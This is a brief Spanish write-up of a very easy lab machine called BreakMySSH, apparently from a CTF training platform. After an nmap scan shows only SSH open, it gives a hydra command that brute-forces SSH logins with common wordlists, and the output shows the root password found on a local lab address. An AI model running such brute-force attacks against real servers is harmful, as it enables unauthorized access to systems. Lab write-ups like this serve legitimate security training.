 ```yaml
---
description: '🧠 Dificultad: Muy fácil | 🔓22/07/2025'
---
```


# BreakMySSH

Con un `nmap` vemos que solo está abierto el puerto de SSH. Por el nombre de la máquina me puedo imaginar que hay que hacerle fuerza bruta.

```bash
hydra -L /usr/share/wordlists/SecLists-2025.2/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250724032351.png" alt=""><figcaption></figcaption></figure></div>

